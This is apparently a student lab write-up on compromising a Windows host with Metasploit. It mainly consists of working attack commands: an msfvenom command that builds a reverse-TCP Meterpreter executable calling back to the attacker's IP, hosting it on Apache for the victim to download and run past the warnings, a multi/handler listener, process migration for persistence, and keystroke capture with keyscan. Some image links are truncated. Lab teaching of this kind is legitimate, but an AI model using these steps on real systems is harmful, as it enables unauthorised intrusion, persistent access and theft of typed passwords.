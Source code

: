 # EX 6 Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
## PROGRAM

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/user-attachments/assets/467704aa-73d5-4a9c-904a-09cf7bad7db9)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/user-attachments/assets/1684ae6a-1a9a-481d-9684-47eac7f47a92)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/user-attachments/assets/0740668c-caea-4e67-bea1-62a0df3e78ae)

Start apache server sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/7f3852b6-f93c-4d76-8759-d6c73aab6456)

Check the status of apache2

![image](https://github.com/user-attachments/assets/c48fd79a-30bd-414e-8964-1c073d4ece6d)

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
87b2-3ede-4fb4-ad00-07eff0c29eec)
Starting a command and control Server use multi/handler

![image](https://github.com/user-attachments/assets/c409

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/c23aceb7-463b-48b6-82de-900b3181174f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/user-attachments/assets/ba2a68c3-d551-44e9-b778-d4fb9f9874b5)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/97e75b0f-8a0b-4e76-9699-ac0669c25601)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![244990928-836e6efa-423f-4553-ad2f-19170b010892](https://github.com/user-attachments/assets/1aad975f-4829-4d93-aee9-d2ba0540c98c)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![244990952-35be18d7-51b0-4529-8fd8-76740f0c9ba6](https://github.com/user-attachments/assets/fd72c5aa-362d-4415-a5ef-33400b2fefa7)

keyscan_dump Shows the keystrokes captured so far
![244990920-d40a4428-0c65-4855-be1d-c278766082fb](https://github.com/user-attachments/assets/0fbad545-7264-4ad1-a9ca-1708b789d66a)

## RESULT:

The Metasploit framework is  used to compromise windows and is examined successfully.
